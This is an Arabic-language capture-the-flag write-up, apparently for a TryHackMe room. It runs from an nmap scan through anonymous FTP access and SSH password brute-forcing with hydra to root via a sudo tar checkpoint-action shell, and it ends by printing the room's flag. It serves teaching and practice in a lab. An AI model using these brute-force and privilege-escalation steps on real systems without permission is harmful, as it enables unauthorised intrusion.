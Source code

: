 

## 1. Reconnaissance (استكشاف الخدمة النشطة)

### فحص المنافذ باستخدام Nmap:

قمنا بإجراء فحص باستخدام `nmap` للكشف عن المنافذ المفتوحة والخدمات الموجودة على الهدف:

```
nmap -sV 10.10.129.160
```

**النتائج:**

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

### تحليل النتائج:

- المنفذ `21` مفتوح ويشغل خدمة `vsftpd 3.0.3` (خادم FTP).
- المنفذ `22` يعمل عليه `OpenSSH 7.2p2` (قد يكون وسيلة للدخول لاحقًا).
- المنفذ `80` يعمل عليه `Apache` (قد يحتوي على موقع ويب يمكن استغلاله).

## 2. استغلال FTP (Anonymous Login)

قمنا بمحاولة الدخول إلى خادم FTP باستخدام `anonymous`، حيث نجح تسجيل الدخول.

```
ftp 10.10.8.245
Name (10.10.8.245:yousef): anonymous
230 Login successful.
```

بعد تسجيل الدخول، قمنا بفحص الملفات الموجودة على الخادم:

```
ls
```

**النتيجة:**

```
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
```

ثم قمنا بتنزيل الملفات لاستخراج أي معلومات مفيدة:

```
get locks.txt
get task.txt
```

## 3. استخراج بيانات تسجيل الدخول

بفحص محتويات `task.txt` وجدنا ملاحظة قد تشير إلى استخدام كلمات مرور محددة. ثم استخدمنا `locks.txt` كمصدر لكلمات المرور لمحاولة الدخول عبر SSH.

## 4. الدخول عبر SSH

قمنا باستخدام `hydra` لتجربة تسجيل الدخول عبر SSH باستخدام اسم المستخدم `lin` وقاموس كلمات المرور المستخرج من `locks.txt`:

```
hydra -l lin -P locks.txt ssh://10.10.129.160
```

**تم العثور على كلمة المرور!** ثم قمنا بتسجيل الدخول:

```
ssh lin@10.10.129.160
```

## 5. تصعيد الصلاحيات (Privilege Escalation)

بعد تسجيل الدخول، قمنا بفحص الأوامر التي يمكن تشغيلها بصلاحيات `sudo`:

```
sudo -l
```

وجدنا إمكانية تشغيل `tar` بصلاحيات `sudo`، مما يمكننا من استغلال `checkpoint-action` للحصول على `root`:

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

**الآن نحن `root`!**

## 6. استخراج العلم (Root Flag)

بما أننا حصلنا على صلاحيات `root`، انتقلنا إلى مجلد `/root` للحصول على العلم:

```
cd /root
ls
cat root.txt
```

**العلم:**

```
THM{80UN7Y_h4cK3r}
```


![[Pasted image 20250323230136.png]]
